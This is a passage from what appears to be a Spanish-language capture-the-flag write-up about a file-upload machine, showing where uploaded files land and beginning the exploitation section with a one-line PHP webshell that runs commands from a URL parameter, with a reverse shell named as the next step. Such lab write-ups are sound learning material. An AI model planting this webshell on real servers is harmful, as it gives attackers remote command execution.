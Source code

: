 Encontramos dónde se están guardando nuestros archivos.

Si visitamos uno de esos directorios, encontraremos nuestro archivo de texto:

<p align="center">
<img src="/assets/images/THL-writeup-uploader/Captura7.png">
</p>

Entonces, es posible que podamos subir una **Webshell** de **PHP** que nos permita ejecutar comandos y así, podríamos mandarnos una **Reverse Shell**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Webshell">Abusando de Carga de Archivos para Cargar Webshell de PHP</h2>

Primero crearemos la **Webshell** de **PHP**:
```bash
cat webshell.php
<?php
	system($_GET['cmd']);
?>
```

Ahora la cargamos a la página web:

<p align="center">